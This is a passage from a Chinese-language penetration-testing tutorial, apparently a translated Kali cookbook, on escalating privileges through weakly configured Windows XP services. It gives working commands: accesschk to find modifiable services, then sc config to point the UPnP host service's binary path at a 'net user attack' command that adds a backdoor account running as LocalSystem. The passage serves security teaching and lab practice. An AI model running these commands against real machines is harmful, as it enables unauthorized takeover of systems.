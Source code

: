 ## 参见...

+   关于未加引号的服务路径利用的两篇优秀白皮书可以在[`trustfoundry.net/practical-guide-to-exploiting-the-unquoted-service-path-vulnerability-in-windows/`](https://trustfoundry.net/practical-guide-to-exploiting-the-unquoted-service-path-vulnerability-in-windows/)和[`www.gracefulsecurity.com/privesc-unquoted-service-path/`](https://www.gracefulsecurity.com/privesc-unquoted-service-path/)找到。

# 服务权限问题

在这个教程中，我们将看看如何提升弱配置服务的权限。这里的核心关注点是，当一个服务被赋予所有访问权限时。可以想象当一个服务以系统权限运行时给予所有访问权限的恐怖。在这个教程中，我们将看一个案例研究，Windows XP 被装载了有漏洞的服务，并且可以以低权限用户的身份执行系统级命令。当这种情况可能发生时，很容易利用并提升权限到系统级。

## 准备工作

对于这个活动，我们将需要一台 Windows XP 机器。我们将利用运行在 Windows XP 操作系统上的 UPnP 服务。**UPnP**代表**通用即插即用**协议。我们还需要 Windows Sysinternals 套件中提供的**AccessChk**工具。它可以从([`technet.microsoft.com/en-us/bb842062`](https://technet.microsoft.com/en-us/bb842062))下载。让我们继续并开始我们的教程。

## 如何操作...

1.  Windows XP 机器启动后，使用具有用户权限的用户名登录，在`accesschk.exe`文件所在的文件夹中打开命令提示符，并运行以下命令：

```
accesschk.exe /accepteula -uwcqv "Authenticated Users" *

```

输出将如下截图所示：

![操作步骤...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-itrs-exp-cb/img/image_09_016.jpg)

1.  一旦我们知道有两个服务可以访问所有用户的权限，我们将检查服务配置。在命令提示符中输入以下命令：

```
sc qc upnphost

```

输出将如下截图所示：

![操作步骤...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-itrs-exp-cb/img/image_09_017.jpg)

1.  现在我们将更改服务的二进制路径，因为应用程序已经给予了所有访问权限。在需要恢复到原始状态时，保留服务配置的副本。现在在终端中输入以下命令：

```
sc config upnphost binpath= "net user attack attack@123 /add"
      sc config upnphost obj= ".\LocalSystem" password= ""

```

输出将如下截图所示：

![操作步骤...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-itrs-exp-cb/img/image_09_018.jpg)
